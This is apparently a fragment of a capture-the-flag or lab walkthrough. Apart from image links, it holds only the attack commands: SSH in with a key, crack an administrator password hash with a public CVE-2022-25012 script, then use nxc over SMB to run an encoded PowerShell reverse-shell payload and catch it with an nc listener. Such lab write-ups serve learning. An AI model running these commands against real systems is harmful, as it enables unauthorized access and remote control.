








```
ssh Viewer@192.168.216.179 -i id_rsa
```

Now we can use the weak password encryption exploit:


We find 2 password hashes. One is for administrator and another for viewer. We'll crack the administrator hash.

Use https://github.com/s3l33/CVE-2022-25012 to crack
```
python3 CVE-2022-25012.py ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8
```



Now to get a shell:
Get payload from revshells.com:

```
nxc smb 192.168.216.179 -u Administrator -p '14WatchD0g$' -X 'powershell -e JABjA...G0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA='
```
```
sudo rlwrap nc -nlvp 443
```

